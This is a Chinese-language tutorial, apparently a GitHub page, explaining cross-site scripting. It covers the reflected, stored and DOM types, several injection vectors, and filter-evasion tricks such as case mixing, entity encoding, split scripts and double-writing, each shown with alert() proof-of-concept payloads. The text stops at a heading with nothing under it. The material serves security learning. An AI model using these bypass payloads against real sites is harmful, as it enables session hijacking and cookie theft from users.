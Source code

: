 # XSS漏洞概述

## 简介

XSS作为OWASP TOP 10之一

XSS被作为跨站脚本攻击(Cross-site scripting),本来应该缩写为CSS，但是由于和CSS(Cascading Style Sheets,层叠样式脚本)重名，所以更名为XSS。XSS（跨站脚本攻击）主要基于javascript(JS)完成恶意的攻击行为。JS可以非常灵活的操作html、css和浏览器，这使得XSS攻击的“想象”空间特别大。

XSS通过将精心构造的代码(JS)代码注入到网页中，并由浏览器解释运行这段JS代码，以达到恶意攻击的效果。当用户访问被XSS脚本注入的网页，XSS脚本就会被提取出来。用户浏览器就会解析这段XSS代码，也就是说用户被攻击了。用户最简单的动作就是使用浏览器上网，并且浏览器中有javascript解释器，可以解析javascript，然而浏览器不会判断代码是否恶意。也就是说，XSS的对象是用户和浏览器。

XSS漏洞发生在哪里？
服务器

微博、留言板、聊天室等等收集用户输入的地方，都有可能被注入XSS代码，都存在遭受XSS的风险，只要没有对用户的输入进行严格过滤，就会被XSS。

- XSS危害

  XSS利用JS代码实现攻击，有很多种攻击方式，一下简单罗列几种
  @ 盗取各种用户账号
  @ 窃取用户Cookie资料，冒充用户身份进入网站
  @ 劫持用户会话，执行任意操作
  @ 刷流量、执行弹窗广告
  @ 传播蠕虫病毒
  等等

- 漏洞的验证

  我们可以用一段简单的代码，验证和检测漏洞的存在，这样的代码叫做PoX(Proof of Concept)。
  PoC 漏洞的验证与检测
  EXP 漏洞的完整利用
  shellcode  利用漏洞时，所执行的代码
  payload    攻击载荷
            sqlmap    攻击代码的模板
            msf       shellcode 类似，功能是建立与目标的连接 
  验证XSS漏洞存在的PoC如下
```
<script>alert(/xss/)</script>   常用
<script>confirm('xss')</script>
<script>prompt('xss')</script>
```

我们可以在测试页面中提交这样的代码[<script>alert(/xss/)</script>]

我们发现，提交的代码[<script>alert(/xss/)</script>],被当作字符串输出在HTML页面中，浏览器会根据[<script>]标签识别为JS语句，并会执行它，执行弹窗操作。也可以说，可以执行其他JS代码，因此我们验证了漏洞的存在性

## XSS的分类

XSS漏洞大概可以分为三个类型：反射型XSS、存储型XSS、DOM型XSS。

- 反射型XSS

反射型XSS是非持久性、参数型的跨站脚本。反射型XSS的JS代码在Web应用的参数（变量）中，如搜索框的反射型XSS。

在搜索框中，提交PoC[<script>alert(/xss/)</script>],点击搜索，即可触发反射型XSS。

注意到，我们提交的poc，会出现在search.php页面的keywords参数中。

- 存储型XSS

存储型XSS是持久性跨站脚本。持久性体现在XSS代码不是在某个参数（变量）中，而是写进数据库或文件等可以永久保存数据的介质中。

存储型XSS通常发生在留言板等地方。我们在留言板位置留言，将恶意代码写进数据库中。

此时，我们只是完成了第一步，将恶意代码写入数据库。因为XSS使用的JS代码，JS代码的运行环境是浏览器，所以需要浏览器从服务器载入恶意的XSS代码，才能真正触发XSS。此时，需要我们模拟网站后台管理员的身份，查看留言。

- DOM XSS

DOM XSS比较特殊。owasp关于DOM型号XSS的定义是基于DOM的XSS是一种XSS攻击，其中攻击的payload由于修改受害者浏览器页面的DOM树而执行的。其特殊的地方就是payload在浏览器本地修改DOM树而执行，并不会传到服务器上，这也就使得DOM XSS比较难以检测。如下面例子
[#message=<script>alert(/xss/)</script>]

我们以锚点的方式提交PoC。PoC并不会发送到服务器，但是已经触发了XSS。查看当前页面的源代码如下

## XSS的构造
- 利用[<>]构造HTML/JS
可以利用[<>]构造HTML标签和<script>标签
在测试页面提交参数[<h1 style='color:red'>利用[<>]构造HTML/JS</h1>]

提交[<script>alert(/xss/)</script>]

- 伪协议

也可以使用javascript:伪协议的方式构造XSS
[javascript:alert(/xss/);]
提交参数[<a href="javascript:alert(/xss/)">touch me!</a>],然后点击超链接，即可触发XSS

也可以使用img标签的伪协议，但是这种方法在IE6下测试成功。[<img src="javascript:alert('xss')">]

- 产生自己的事件

“事件驱动”是一种比较经典的编程思想。在网页中会发生很多事件（比如鼠标移动，键盘输入等），JS可以对这些事件进行响应。所以我们可以通过事件触发JS函数，触发XSS。

事件种类
windows事件            对windows对象触发的事件
Form事件               HTML表单内的动作触发事件
keyboard事件           键盘按键
Mouse事件              由鼠标或类似用户动作触发的事件
Media事件              由多媒体触发的事件

如，[<img src='./smile.jpg' onmouseover='alert(/xss/)'>]这个标签会引入一个图片，然后鼠标悬停在图片上的时候，会触发XSS代码。

单行文本框的键盘点击事件，[<input type="text" onkeydown="alert(/xss/)">],当点击键盘任意一个按键的时候出发。
<input type="text" onkeyup="alert(/xss/)">
<input type="button" onclick="alert(/xss/)">
[<img src='#' onerror='alert(/xss/)'>]

- 利用CSS跨站（old）

我们也可以利用CSS（层叠样式表）触发XSS。但是这种方法比较古老，基本上不适合现在主流的浏览器，但是从学习的角度，我们需要了解这种类型的XSS，以下代码均在IE6下测试

@ 行内样式
[<div style="background-image:url(javascript:alert(/xss/))">]

@ 页内样式
[<style>Body{background-image:url(javascript:alert(/xss/))}</style>]

@ 外部样式
[<link rel="stylesheet" type="text/css" href="./xss.css"><div>hello<div>]

- 其他标签以及手法(H5)
我们可以用其他标签触发XSS
[<svg onload="alert(/xss/)">] 这个语句还是比较简洁的

[<input onfocus=alert(/xss/) autofocus>]

## XSS的变形

我们可以构造XSS代码进行各种变形，以绕过XSS过滤器的检测。变形方式主要有以下几种

- 大小写转换

可以将payload进行大小写转换。如下面两个例子。
<Img sRc='#' Onerror="alert(/xss/)">

<a hREf="javaScript:alert(/xss/)">click me</a>

- 引号的使用

HTML语言中对引号的使用不敏感，但是某些过滤函数是“锱铢必较”。
<img src="#" onerror="alert(/xss/)"/>

<img src='#' onerror='alert(/xss/)'/>

<img src=# onerror=alert(/xss/)/>

- [/]代替空格

可以利用左斜线代替空格
<Img/sRc='#'/Onerror='alert(/xss/)'/>

- 回车

我们可以在一些位置添加Tab（水平制表符）和回车符，来绕过关键字检测。
<Img/sRc='#'/Onerror  ='alert(/xss/)' />

<A hREf="j
a vascript:alert(/xss/)">click me!</a>

- 对标签属性值进行转码

可以对标签属性值进行转码，用来绕过过滤。对应编码如下

字母     ASCII码       十进制编码        十六进制编码
a        97            &#97;             &#x61;
e        101           &#101;            &#x65;

经过简单编码之后的样子
<a hREf="j&#97;v&#x61;script:alert(/xss/)">click me!</a>

另外，我们可以将以下字符插入到任意位置
Tab      &#9
换行     &#10
回车     &#13

可以将以下字符插入到头部位置
SOH     &#01
STX     &#02

经过编码后的样子
<A hREf="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">
click me!
</a>

- 拆分跨站

<script>z='alert'</script>
<script>z=z+'(/xss/)'</script>
<script>eval(z)</script>

- 双写绕过

```
<script>
<scr<script>ipt>
```

- CSS中的变形

@ 使用全角字符
width:e x p r e s s i o n(alert(/xss/))

@ 注释会被浏览器忽略
width:expr/*~*/ession(alert(/x~s~s/))

@ 样式表中的[\]和[\0]
<style>@import 'javasc\ri\0pt:alert("xss")';</style>

Shellcode的使用
  Shellcode就是在利用漏洞所执行的代码
  完整的XSS攻击，会将Shellcode存放在一定的地方，然后触发漏洞。调用Shellcode。

- 远程调用JS

可以将JS代码单独放在一个js文件中，然后通过http协议远程加载该脚本。如[<script src="http://127.0.0.1/XSS-TEST/normal/xss.js"></script>]，这是比较常用的方式。XSS。js的内容如下：
```
alert('xss.js');
```

- windows.location.hash

